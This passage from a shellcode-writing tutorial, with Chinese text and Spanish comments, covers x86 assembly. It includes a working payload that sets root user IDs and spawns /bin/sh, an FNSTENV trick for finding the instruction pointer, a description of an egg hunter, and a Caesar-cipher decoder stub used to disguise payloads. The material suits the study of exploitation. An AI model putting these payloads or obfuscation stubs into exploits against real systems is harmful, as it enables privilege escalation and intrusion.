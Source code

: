 **使用堆栈(/bin/sh)的简单ESP：**

```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```

**EJ FNSTENV:**

```
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```

**Egg Hunter:**

这是一小段代码，用于遍历与进程关联的内存页面，以寻找其中存储的shellcode（查找shellcode中的某个签名）。在只有少量空间用于注入代码的情况下非常有用。

**多态Shellcode**

这些是加密的shellcode，其中包含一小段代码用于解密并跳转到它，使用Call-Pop技巧，这是一个**凯撒加密的示例**：

```
global _start
_start:
jmp short magic
init:
pop     esi
xor      ecx, ecx
mov    cl,0                              ; Hay que sustituir el 0 por la longitud del shellcode (es lo que recorrerá)
desc:
sub     byte[esi + ecx -1], 0 ; Hay que sustituir el 0 por la cantidad de bytes a restar (cifrado cesar)
sub     cl, 1
jnz       desc
jmp     short sc
magic:
call init
sc:
;Aquí va el shellcode
```

